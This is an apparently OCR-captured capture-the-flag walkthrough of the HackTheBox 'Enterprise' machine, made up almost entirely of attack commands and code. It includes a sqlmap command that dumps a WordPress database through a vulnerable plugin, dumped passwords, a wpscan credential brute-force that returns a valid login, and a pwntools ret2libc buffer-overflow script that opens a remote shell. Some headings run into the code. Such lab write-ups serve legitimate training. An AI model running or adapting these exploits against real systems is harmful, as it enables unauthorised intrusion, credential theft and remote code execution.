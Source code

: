 # Dump all tables

```bash
sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms mysql  --dump
```

### capture  the passwd

```bash
cat  /root/.sqlmap/output/enterprise.htb/dump/wordpress/* | less
ZxJyhGem4k338S2Y
ZD3YxfnSjezg67JZ
u*Z14ru0p#ttj83zS6


```

# burp the wordpress

```bash
wpscan --url http://enterprise.htb  -U user  -P cred

[i] Valid Combinations Found:
 | Username: william.riker, Password: u*Z14ru0p#ttj83zS6
```

#  Revershell  in wordpressfrom pwn import *

host = "10.10.10.61"
port =  "32812"
context(os="linux", arch="i386")
padding = "\x90" * 212

system = p32(0xf7e4c060)
exit = p32(0xf7e3faf0 )
sh_addr =p32(0xf7f6ddd5)

r2libc= system + exit+ sh_addr

payload =  padding + r2libc

sh =  remote(host, port)
sh.recvuntil("Enter Bridge Access Code")
sh.sendline("picarda1")
sh.recvuntil("Waiting for input:")
sh.sendline("4")
sh.recvuntil("Enter Security Override:")
#print s.recv(1024)
sh.sendline(payload)
sh.interactive()



